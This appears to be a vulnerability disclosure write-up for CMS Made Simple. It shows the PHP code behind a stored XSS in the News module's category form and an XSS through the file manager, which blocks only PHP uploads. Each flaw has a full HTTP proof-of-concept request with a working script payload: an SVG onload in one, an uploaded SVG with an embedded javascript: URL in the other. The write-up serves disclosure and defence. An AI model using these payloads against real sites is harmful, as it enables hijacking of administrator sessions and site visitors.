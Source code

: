 One day I felt like reviewing the source code of some random CMS and I picked CMSMS. This is totally random and I did this to kill boredom.

## Stored XSS

In Setting-New module,you can add category,there is no XSS filtering, resulting in storage-type XSS generation. 
file modules/New/action.addcategory.php,line10~line29.  
    ```` 
    $name = trim($params['name']);
    //if( $parent == 0 ) $parent = -1;
    $name = trim($params['name']);
    if ($name != '') {
    $query = 'SELECT news_category_id FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ? AND news_category_name = ?';
    $tmp = $db->GetOne($query,array($parent,$name));
    if( $tmp ) {
    echo $this->ShowErrors($this->Lang('error_duplicatename'));
    }
    else {
    $query = 'SELECT max(item_order) FROM '.CMS_DB_PREFIX.'module_news_categories WHERE parent_id = ?';
    $item_order = (int)$db->GetOne($query,array($parent));
    $item_order++;
    $catid = $db->GenID(CMS_DB_PREFIX."module_news_categories_seq");
    $query = 'INSERT INTO '.CMS_DB_PREFIX.'module_news_categories (news_category_id, news_category_name, parent_id, item_order, create_date, modified_date) VALUES (?,?,?,?,NOW(),NOW())';
    $parms = array($catid,$name,$parent,$item_order);
    $db->Execute($query, $parms);
    ````  
The parameter name insert into the database without filtering。

### POC  
    ````
    POST /admin/moduleinterface.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 143
    Referer: http://127.0.0.1/
    Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
    Connection: close
    Upgrade-Insecure-Requests: 1
    mact=News%2Cm1_%2Caddcategory%2C0&_sk_=98cf4d97037a4df557b&m1_name=%3Csvg%2F+onload%3Dalert%281%29%3E&m1_parent=-1&m1_submit=%E6%8F%90%E4%BA%A4
    
    ````
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/94376829.jpg)
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/48134010.jpg)
    
## FILE UPLOAD XSS  
In file manager,user can upload any files other than php。If the file ends with html, svg, it can Cause XSS.
file modules/FileManager/action.upload.php,line10~line29.  
    
    protected function is_file_acceptable( $file )
    {
      $config = \cms_config::get_instance();
      if( !$config['developer_mode'] ) {
          $ext = strtolower(substr(strrchr($file, '.'), 1));
          if( startswith($ext,'php') || endswith($ext,'php') ) return FALSE;
      }
      return TRUE;
  }
  
  It only intercepts PHP files.
  
  

### poc
   ```
   POST /admin/moduleinterface.php HTTP/1.1
   Host: 127.0.0.1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
   Accept: application/json, text/javascript, */*; q=0.01
   Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
   X-Requested-With: XMLHttpRequest
   Referer: http://127.0.0.1/
   Content-Length: 865
   Content-Type: multipart/form-data;
   boundary=---------------------------135822859015495
   Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
   Connection: close
   -----------------------------135822859015495
   Content-Disposition: form-data; name="mact"
   FileManager,m1_,upload,0
   -----------------------------135822859015495
   Content-Disposition: form-data; name="_sk_"
   98cf4d97037a4df557b
   -----------------------------135822859015495
   Content-Disposition: form-data; name="disable_buffer"
   1
   -----------------------------135822859015495
   Content-Disposition: form-data; name="m1_files[]"; filename="svg.svg"
   Content-Type: image/png
   <svg id="rectangle"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:xlink="http://www.w3.org/1999/xlink"
   width="100" height="100">
   <foreignObject width="100" height="50"
   requiredExtensions="http://www.w3.org/1999/xhtml">
   <embed xmlns="http://www.w3.org/1999/xhtml" 
   src="javascript:alert('xss')" />
   </foreignObject>
   </svg>
   -----------------------------135822859015495--
   ```

![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/40567149.jpg)

    

